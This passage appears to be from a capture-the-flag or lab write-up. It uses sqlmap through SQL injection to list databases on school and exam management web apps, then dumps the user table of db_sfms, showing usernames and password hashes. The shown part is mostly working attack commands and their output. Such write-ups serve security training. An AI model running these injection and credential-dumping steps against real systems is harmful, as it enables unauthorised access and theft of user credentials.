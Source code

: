 Let's dump the database names to start with. We run a tables query and kill it after database names have been enumerated.

```bash
> sqlmap -r admin.req --tables

...SNIP

[10:50:53] [INFO] fetching database names
[10:50:53] [INFO] fetching number of databases
[10:50:53] [INFO] retrieved: 4
[10:50:54] [INFO] retrieved: information_schema
[10:52:00] [INFO] retrieved: db_sfms
[10:52:27] [INFO] retrieved: erms_db
[10:52:54] [INFO] retrieved: roundcu
[10:53:24] [ERROR] invalid character detected. retrying..
[10:53:24] [WARNING] increasing time delay to 2 seconds
bedb
[10:53:44] [INFO] fetching tables for databases: 'db_sfms, erms_db, information_schema, roundcubedb'

...SNIP

```

so we have the databases:
```bash
db_sfms                     # database school file management system
erms_db                     # exam ??? management system
information_schema
roundcubedb                 # ??
```

we know the table and column names from the query in the source code, so let's dump the users and password for db_sfms

```bash
> sqlmap -r admin.req --dbms=mysql -D db_sfms -T user -C username,password --dump

...SNIP

[3 entries]
+------------------+----------------------------------+
| username         | password                         |
+------------------+----------------------------------+
| Stev1992         | 112dd9d08abf9dcceec8bc6d3e26b138 |
| UndetectableMark | b35e311c80075c4916935cbbbd770cef |
| admin            | fc8ec7b43523e186a27f46957818391c |
+------------------+----------------------------------+

...SNIP

```
